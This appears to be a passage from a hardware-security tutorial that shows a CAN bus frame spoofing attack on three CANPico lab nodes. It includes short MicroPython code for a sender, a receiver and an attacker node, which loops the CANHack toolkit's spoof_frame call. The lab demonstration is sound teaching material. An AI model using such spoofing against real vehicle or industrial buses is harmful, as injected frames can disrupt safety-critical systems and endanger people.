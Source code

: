 ## Executing Frame Spoofing Attack
As we discussed earlier, we're going to set up three CANPico nodes: one for sending, one for receiving, and one for attacking. Now, let's dive into the sender node. First things first, we initialize the CAN controller. After that, we create a CAN frame with an ID of 0x123 and data set as "AA". To send this frame on the bus, we use a simple for loop, sending it out with a one-second delay between each frame. Take a look at the code snippet below:
```python
# Sender
# initialize CAN controler
from time import sleep
from rp2 import *
c = CAN()

frame = CANFrame(CANID(0x123), data=b'AA')
for _ in range(1, 10):
    c.send_frame(frame)
    sleep(1)
```


Moving on to the receiver node, Like the sender, it starts by initializing the CAN conroler. Then, the node continuously monitors the CAN bus for incoming frames, and printing them on the standard output.
```python
# Receiver
# initialize CAN controler
from rp2 import *
c = CAN()

# continuously monitoring CAN bus
while True: 
	frame = c.recv()
	if len(frame) > 0:
		print(frame)
```


Regarding the attacker node, we start by initializing the CANHack toolkit (the default bit rate is 500K) which will actively monitor the CAN bus. Once the desired frame to be spoofed is detected on the bus, the attacker node sends the spoofed frame to the target. 
```python
# Attacker
# Initializes the CANHack toolkit ( bit_rate is one of 500, 250, or 125)
from rp2 import *
ch = CANHack()

# set up a CAN frame
ch.set_frame(can_id=0x123, data=b'BB')
ch.print_frame()

# Spoof Frame attack
while True:
    ch.spoof_frame()
```
